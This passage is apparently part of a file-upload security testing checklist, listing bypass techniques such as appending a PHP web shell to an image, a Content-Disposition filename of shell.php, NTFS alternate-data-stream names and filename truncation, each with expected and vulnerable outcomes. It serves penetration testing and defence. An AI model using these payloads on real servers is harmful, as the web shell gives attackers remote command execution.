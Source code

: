 ✅ Expected: MIME type verified server-side  
❌ Vulnerable: File accepted based on header alone

---

**3. Magic Bytes Bypass**  
Embed shell after valid image header.

`bash`  
```bash
echo "<?php system($_GET['cmd']); ?>" >> image.png
```

✅ Expected: File scanned for actual content  
❌ Vulnerable: Shell executed despite image header

---

**4. Content-Disposition Manipulation**  
Inject malicious filename via multipart upload.

`http`  
Header:  
```http
Content-Disposition: form-data; name="file"; filename="shell.php"
```

✅ Expected: Filename sanitized  
❌ Vulnerable: Executable file saved

---

**5. NTFS ADS Bypass (Windows)**  
Use alternate data stream to hide payload.

`filename`  
```text
shell.asp:.jpg
shell.asp::$data
```

✅ Expected: ADS rejected or ignored  
❌ Vulnerable: Payload executed via ADS

---

**6. Filename Length Truncation**  
Exploit filename length limits to hide extension.

`filename`  
```text
A...A.php.png (255 bytes total)
```

✅ Expected: Full filename validated  
❌ Vulnerable: Executable extension preserved

---

**7. Image Metadata Injection**  
Embed shell in EXIF metadata.
